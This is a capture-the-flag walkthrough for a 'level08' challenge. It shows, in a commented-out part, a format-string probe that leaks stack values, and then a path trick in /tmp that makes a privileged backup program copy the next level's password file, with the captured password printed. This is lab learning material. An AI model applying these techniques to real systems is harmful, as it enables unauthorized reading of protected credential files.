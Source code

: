 # level08

<!-- As we can see in `log_wrapper`, the format of `snprintf()` is a variable, creating a vulnerability.  

```sh
$> ./level08 "$(python -c 'print("AAAAAAAA" + "%p "*11)')"

$> cat backups/.log 
LOG: Starting back up: AAAAAAAA0xffffffffffffffec 0xec 0x400d6c 0xffffffffffffffff 0x7fffffffe8cd 0x400d96 0x603010 0x676e697472617453 0x7075206b63616220 0x414141414141203a 0x6666666678304141
```
*Our `'A's` are on the 10th position on the stack.*
 -->

We basically need to find a way to have :
- a file (`argv[1]`) existing in the directory we execute the program from.
- a path that exists in the subfolder `./backups`.

(i.e: `./backups/file` & `./file` must exist)

The problem is that we can't create a directory in `~`.  
But we can do it in `/tmp` !  

```sh
$> cd /tmp

$> pwd
/tmp

$> mkdir -p ./backups/home/users/level09/

$> ~/level08 /home/users/level09/.pass

$> cat /tmp/backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
